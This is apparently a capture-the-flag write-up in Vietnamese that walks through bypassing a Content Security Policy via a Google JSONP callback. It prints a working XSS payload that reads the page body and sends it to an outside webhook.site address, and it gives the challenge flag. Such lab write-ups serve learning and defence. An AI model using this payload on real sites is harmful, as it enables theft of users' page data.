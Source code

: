 ```diff
@@ Web-Client Challenge
```

## CSP Bypass - JSONP [45 Points]

- Challenge cung cấp cho ta trang web như sau

  ![3](img/3.jpg)

-  Thử payload Reflect XSS ta thấy nó không thực thi được do CSP

  ![3-3](img/3-3.jpg)

- Vì đề là CSP Bypass nên ta sẽ kiểm tra Content Security Policy của trang này là gì

  ![3-1](img/3-1.jpg)

- Kiểm tra  trên trang CSP Evaluator ta thấy có 1 vị trí có thể khai thác

  ![3-2](img/3-2.jpg)

- Default - src là chỉ thị mặc định khi các chỉ thị khác bị thiếu, ở đây nó có nội dung là

  ```default-src 'self' https://*.google.com https://*.googleapis.com https://*.twitter.com;```

  Và trong list liệt kê ở trên, ta thấy trang web thiếu chỉ thị ```script-src``` => giá trị của ```script-src``` sẽ là giá trị của ```default-src```

- Ta thấy nó có thể thực thi các script từ các source có domain là  google.com  , googleapis.com,  twitter.com. Vậy ý tưởng là ta sẽ load script từ các nguồn trên vào trang web để thực thi. 

- Vì không thể thực hiện việc tạo 1 file javascript trên các domain này, ta thực hiện tìm kiếm giải pháp khác liên quan đến tiêu đề challenge - JSONP

- Tìm hiểu khái niệm JSONP ta có kết quả như sau

  ![3-5](img/3-5.jpg)

- Truyền dữ liệu giữa các domain khác nhau sẽ gặp lỗi Cross-domain, nhưng truyền script thì không. JSONP tận dụng lợi ích của điều này để truyền dữ liệu. Cụ thể nó sẽ truyền script qua bên nhận và bên nhận tự thực thi script đó để lấy dữ liệu.

- Từ đó, ta có ý tưởng tạo jsonp để lấy script từ các domain cho phép, có nghĩa là không cần tạo file javascript trên các domain đó nhưng vẫn load script về được. (dựa trên đặc điểm của jsonp)

- Thử tìm kiếm ta thấy có một trang của google cho phép tạo jsonp theo mong muốn.

  ![3-4](img/3-4.jpg)

- Đặt script mong  muốn của ta vào nội dung tham số callback => Ta đã có được source script để inject

  ``` Payload: <script src="https://accounts.google.com/o/oauth2/revoke?callback=function myFunction(){ var a = document.getElementsByTagName('body')[0].textContent; document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(a)}; setTimeout(myFunction, 2000)"></script>```

  - Giải thích Payload: tham số callback nhận giá trị là một function, nên em định nghĩa ra một function để thực hiện đọc nội dung tag ```<body>``` của response. Sau đó gửi nội dung đó tới webhook của mình. Lưu ý ở đây là vì thẻ script nằm phía trên phần nội dung có flag, nếu script được trigger ngay lúc đó sẽ không đọc được nội dung bên dưới. Vậy nên ta phải dùng hàm setTimeout để đợi trình duyệt render hết nội dung của html rồi mới thực hiện script.

- Kết quả

  ![3-6](img/3-6.jpg)

  ```diff
  - Flag: CSP_4ND_JS0NP_ENDPOINT_B4D_ID3A
  ```
